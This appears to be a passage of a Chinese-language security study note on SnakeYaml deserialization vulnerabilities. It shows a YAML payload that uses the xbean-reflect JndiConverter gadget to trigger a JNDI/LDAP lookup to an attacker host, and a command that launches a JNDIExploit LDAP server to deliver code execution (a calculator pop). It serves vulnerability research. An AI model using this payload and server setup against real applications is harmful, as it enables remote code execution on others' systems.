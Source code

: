 ###### 基于 xbean-reflect

这是学习[FasterXML jackson-databind](https://github.com/pen4uin/JavaSec/tree/main/jackson-databind)时用到的一条链，照猫画虎，构造payload

弹计算器

```java
String evilText = "!!org.apache.xbean.propertyeditor.JndiConverter\n asText: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"";
```

LDAP服务端

```
java -jar .\JNDIExploit-1.4-SNAPSHOT-modified.jar -i 10.10.10.1
```

 ![image-20220124164807399](img/image-20220124164807399.png)

测试效果

 ![image-20220125145833353](img/image-20220125145833353.png)

###### 基于 more gadgets

经过以上测试的两条链

- JdbcRowSetImplfastjson、对应Fastjson
- xbean-reflect、对应Jackson

推导出SnakeYaml的反序列化可以使用Fastjson 和 Jackson 的利用链，从而得出SnakeYaml的反序列化漏洞的原理【先给出结论再分析】

```
反序列化的过程中调用了setter方法
```

